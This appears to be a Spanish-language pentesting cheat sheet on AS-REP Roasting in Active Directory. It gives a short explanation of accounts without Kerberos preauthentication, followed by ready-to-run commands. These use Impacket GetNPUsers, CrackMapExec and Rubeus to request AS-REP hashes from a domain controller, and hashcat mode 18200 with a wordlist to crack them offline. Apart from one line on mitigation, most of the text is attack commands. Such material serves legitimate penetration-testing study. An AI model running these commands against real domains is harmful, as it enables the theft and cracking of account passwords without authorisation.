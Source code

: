 # ASREProstable 

Tags: #AD #ASREProstable #Rubeus #Impacket #Crackmapexec #HashCat #Windows 

El "KRB_AS_REP Roasting" es un ataque dirigido a cuentas en dominios de Active Directory (AD) que tienen habilitada la opción "No requiere preautenticación de Kerberos". Esta configuración permite a un atacante solicitar un ticket de autenticación (AS-REP) sin proporcionar una preautenticación válida. El atacante puede capturar este ticket y descifrarlo fuera de línea para intentar recuperar las contraseñas en texto claro de las cuentas afectadas. Este método explota configuraciones inseguras y puede ser mitigado desactivando dicha propiedad en las cuentas y aplicando contraseñas fuertes junto con políticas de monitoreo.

* [CVE-2022-33679](https://infayer.com/archivos/1661)

```bash 
1. Preautenticación de Kerberos: Normalmente, Kerberos requiere que un usuario proporcione no solo su nombre de usuario sino también su contraseña para obtener un ticket TGT (Ticket Granting Ticket) durante el proceso de autenticación inicial (AS-REQ). Esta es una medida de seguridad diseñada para prevenir ataques de tipo "offline" en los que se intenta adivinar las contraseñas.
    
2. Cuentas sin Preautenticación: Sin embargo, en algunos casos, esta propiedad puede estar deshabilitada para ciertas cuentas debido a necesidades de compatibilidad o configuraciones erróneas. Esto significa que el KDC (Key Distribution Center) enviará la respuesta (AS-REP) que contiene el TGT cifrado sin requerir una prueba válida de conocimiento de la contraseña del usuario.

# Funcionamiento 

1. Enumeración de Usuarios: Un atacante primero enumerará las cuentas de usuario que tienen deshabilitada la preautenticación de Kerberos.
    
2. Solicitud de TGT: Luego, el atacante puede enviar una solicitud AS-REQ para esas cuentas y el KDC responderá con un AS-REP que contiene el TGT cifrado usando la contraseña del usuario.
    
3. Ataque Offline: A diferencia de un ataque de fuerza bruta online, el atacante puede ahora intentar descifrar el TGT offline, utilizando herramientas de cracking de contraseñas para adivinar la contraseña sin alertar al sistema o bloquear la cuenta de usuario.
```

## Explotar con Impacket

```bash 
# Ejemplo de un hash 

❯ $krb5asrep$23$asrep.user@domain1.corp:0939461A3CF12B34FC2EEDE8C8154E15$55613643FA62AB315871CFD9B90978AB2D3...
```

```bash 
❯ impacket-GetNPUsers 'domain1.corp/asrep.user' -no-pass -dc-ip 18.116.10.36 -request

	# domain1.corp/asrep.user = Usuario vulnerable o lista de usuarios 
	# no-pass = No hay una contraseña 
	# dc-ip = Ip del DC
```

## Explotar con CrackMapExec

```bash 
❯ ./cme ldap 18.116.10.36 -u 'clearpass.user' -p 'Password@1' --asreproast output.txt
```

## Explotar con Rubeus 

```powershell
❯ .\Rubeus.exe asreproast /user:asrep.user /format:hashcat /outfile:hashes.asreproast 

	# user = Usuario vulnerable
	# outfile = Exportar a un archivo 
```

## Crackear el Hash obtenido 

```bash 
# Guardar y crackear el hash con 'Hashcat'
❯ hashcat -m 18200 --force hashes.asreproast /usr/share/wordlists/rockyou.txt

	# m = Método por fuerza bruta
	# 18200 = Es un ASREProstable
	# hashes.asreproast = Archivo que contiene el hash 
	# rockyou = Diccionario a usar 
```